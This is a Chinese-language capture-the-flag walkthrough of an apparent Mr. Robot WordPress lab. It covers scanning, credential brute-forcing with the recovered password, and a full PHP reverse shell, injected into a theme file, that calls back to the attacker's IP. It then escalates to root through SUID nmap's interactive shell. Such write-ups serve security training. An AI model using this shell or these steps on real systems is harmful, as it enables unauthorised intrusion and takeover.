









# 一、信息收集

1. 主机发现，如下，kali的ip为172.16.66.134，则172.16.66.133就是靶机的ip了
   
   ```shell
   sudo arp-scan -l
   ```
   
   

2. 端口扫描，如下，开放了22、80、443端口，web服务使用的是Apache httpd
   
   ```shell
   nmap -Pn -p- -sV -sC 172.16.66.133
   ```
   
   

3. 访问一下80端口，是一个web命令行，测试了一下没有什么用
   
   

4. 使用dirsearch进行目录扫描，发现存在robots.txt和一些wp-开头的路径，猜测应该是wordpress。访问robots.txt，发现有一个dic文件和一个key-1-of-3.txt文件
   
   ```shell
   dirsearch -u "http://172.16.66.133" -e *
   ```
   
   

5. 访问key-1-of-3.txt文件得到一个key
   
   

6. 目录扫描发现的路径中有/wp-login，访问发现是wordpress的后台登陆地址。尝试登陆发现用户名错误会有提示，这里可以尝试对用户名进行爆破
   
   

7. 打开刚刚在robots.txt文件中得到的dic文件，发现是一个字典文件
   
   

8. 使用burpsuite和这个字典文件对后台用户名进行爆破，获得用户名Elliot
   
   

9. 接着爆破密码，使用burpsuite和自己常用的字典没有爆出来，由于是wordpress的网站，因此可以换wpscan指定用户名进行爆破，字典就用上面发现的那个，成功爆破出密码
   
   

# 二、getshell

1. 使用elliot/ER28-0652登陆后台，在Appearance/Editor中修改404.php文件，将内容改为php反弹shell的内容，注意修改ip和端口
   
   ```php
   <?php
   // php-reverse-shell - A Reverse Shell implementation in PHP
   // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
   //
   // This tool may be used for legal purposes only.  Users take full responsibility
   // for any actions performed using this tool.  The author accepts no liability
   // for damage caused by this tool.  If these terms are not acceptable to you, then
   // do not use this tool.
   //
   // In all other respects the GPL version 2 applies:
   //
   // This program is free software; you can redistribute it and/or modify
   // it under the terms of the GNU General Public License version 2 as
   // published by the Free Software Foundation.
   //
   // This program is distributed in the hope that it will be useful,
   // but WITHOUT ANY WARRANTY; without even the implied warranty of
   // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   // GNU General Public License for more details.
   //
   // You should have received a copy of the GNU General Public License along
   // with this program; if not, write to the Free Software Foundation, Inc.,
   // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
   //
   // This tool may be used for legal purposes only.  Users take full responsibility
   // for any actions performed using this tool.  If these terms are not acceptable to
   // you, then do not use this tool.
   //
   // You are encouraged to send comments, improvements or suggestions to
   // me at pentestmonkey@pentestmonkey.net
   //
   // Description
   // -----------
   // This script will make an outbound TCP connection to a hardcoded IP and port.
   // The recipient will be given a shell running as the current user (apache normally).
   //
   // Limitations
   // -----------
   // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
   // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
   // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
   //
   // Usage
   // -----
   // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
   
   set_time_limit (0);
   $VERSION = "1.0";
   $ip = '172.16.66.134';  // CHANGE THIS
   $port = 4444;       // CHANGE THIS
   $chunk_size = 1400;
   $write_a = null;
   $error_a = null;
   $shell = 'uname -a; w; id; /bin/sh -i';
   $daemon = 0;
   $debug = 0;
   
   //
   // Daemonise ourself if possible to avoid zombies later
   //
   
   // pcntl_fork is hardly ever available, but will allow us to daemonise
   // our php process and avoid zombies.  Worth a try...
   if (function_exists('pcntl_fork')) {
       // Fork and have the parent process exit
       $pid = pcntl_fork();
   
       if ($pid == -1) {
           printit("ERROR: Can't fork");
           exit(1);
       }
   
       if ($pid) {
           exit(0);  // Parent exits
       }
   
       // Make the current process a session leader
       // Will only succeed if we forked
       if (posix_setsid() == -1) {
           printit("Error: Can't setsid()");
           exit(1);
       }
   
       $daemon = 1;
   } else {
       printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
   }
   
   // Change to a safe directory
   chdir("/");
   
   // Remove any umask we inherited
   umask(0);
   
   //
   // Do the reverse shell...
   //
   
   // Open reverse connection
   $sock = fsockopen($ip, $port, $errno, $errstr, 30);
   if (!$sock) {
       printit("$errstr ($errno)");
       exit(1);
   }
   
   // Spawn shell process
   $descriptorspec = array(
      0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
      1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
      2 => array("pipe", "w")   // stderr is a pipe that the child will write to
   );
   
   $process = proc_open($shell, $descriptorspec, $pipes);
   
   if (!is_resource($process)) {
       printit("ERROR: Can't spawn shell");
       exit(1);
   }
   
   // Set everything to non-blocking
   // Reason: Occsionally reads will block, even though stream_select tells us they won't
   stream_set_blocking($pipes[0], 0);
   stream_set_blocking($pipes[1], 0);
   stream_set_blocking($pipes[2], 0);
   stream_set_blocking($sock, 0);
   
   printit("Successfully opened reverse shell to $ip:$port");
   
   while (1) {
       // Check for end of TCP connection
       if (feof($sock)) {
           printit("ERROR: Shell connection terminated");
           break;
       }
   
       // Check for end of STDOUT
       if (feof($pipes[1])) {
           printit("ERROR: Shell process terminated");
           break;
       }
   
       // Wait until a command is end down $sock, or some
       // command output is available on STDOUT or STDERR
       $read_a = array($sock, $pipes[1], $pipes[2]);
       $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
   
       // If we can read from the TCP socket, send
       // data to process's STDIN
       if (in_array($sock, $read_a)) {
           if ($debug) printit("SOCK READ");
           $input = fread($sock, $chunk_size);
           if ($debug) printit("SOCK: $input");
           fwrite($pipes[0], $input);
       }
   
       // If we can read from the process's STDOUT
       // send data down tcp connection
       if (in_array($pipes[1], $read_a)) {
           if ($debug) printit("STDOUT READ");
           $input = fread($pipes[1], $chunk_size);
           if ($debug) printit("STDOUT: $input");
           fwrite($sock, $input);
       }
   
       // If we can read from the process's STDERR
       // send data down tcp connection
       if (in_array($pipes[2], $read_a)) {
           if ($debug) printit("STDERR READ");
           $input = fread($pipes[2], $chunk_size);
           if ($debug) printit("STDERR: $input");
           fwrite($sock, $input);
       }
   }
   
   fclose($sock);
   fclose($pipes[0]);
   fclose($pipes[1]);
   fclose($pipes[2]);
   proc_close($process);
   
   // Like print, but does nothing if we've daemonised ourself
   // (I can't figure out how to redirect STDOUT like a proper daemon)
   function printit ($string) {
       if (!$daemon) {
           print "$string\n";
       }
   }
   
   ?> 
   ```

2. kali上开启监听，然后访问404.php文件，该文件的url为`http://172.16.66.133/wp-content//themes/twentyfifteen/404.php`，随后发现成功获取到了webshell
   
   

# 三、权限提升

1. 查找有suid权限的文件，发现存在nmap
   
   ```shell
   find / -perm -4000 2>/dev/null
   ```
   
   

2. 获取交互式shell
   
   ```shell
   python -c 'import pty;pty.spawn("/bin/sh")'
   ```

3. 发现权限受限，无法执行nmap。cd到home目录下，发现有一个robot目录，也就是说有一个robot用户，在这个用户目录下发现一个key文件和一个password文件，解密得到robot用户的密码
   
   

4. 切换到robot用户
   
   

5. 现在可以执行nmap命令了，使用nmap的交互模式切换到系统shell，如下，成功获取root权限
   
   ```shell
   nmap --interactive
   !sh
   ```
   
   
